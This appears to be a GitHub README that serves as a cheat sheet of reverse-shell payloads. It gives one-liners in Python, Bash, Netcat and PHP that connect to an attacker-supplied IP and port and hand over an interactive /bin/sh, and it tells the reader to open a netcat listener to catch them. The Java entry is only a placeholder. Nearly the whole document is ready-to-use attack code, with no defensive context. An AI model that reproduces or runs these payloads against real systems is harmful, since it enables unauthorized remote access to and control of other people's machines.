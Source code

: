 Reverse-Shell
=============

A list of Reverse Shells on multiple languages. Replace `{IP}` and `{PORT}` values
with a couple `IP:port` the server can access. Then, on your local machine you open
a listener with `netcat`:

```bash
nc -lvnp {PORT}
```

## Python
```bash
python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\\"{IP}\\",{Port}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\\"/bin/sh\\",\\"-i\\"]);\'
```

## Bash
```bash
bash -i >& /dev/tcp/{IP}/{PORT} 0>&1
```

## Netcat
```bash
nc -e /bin/sh {IP} {PORT}
```

## Java
```java
r = Runtime.getRuntime();p = r.exec(["your payload"] as String[]);p.waitFor()
```

## PHP
```bash
php -r '\$sock=fsockopen(\"{IP}\",{PORT});exec(\"/bin/sh -i <&3 >&3 2>&3\");'
```


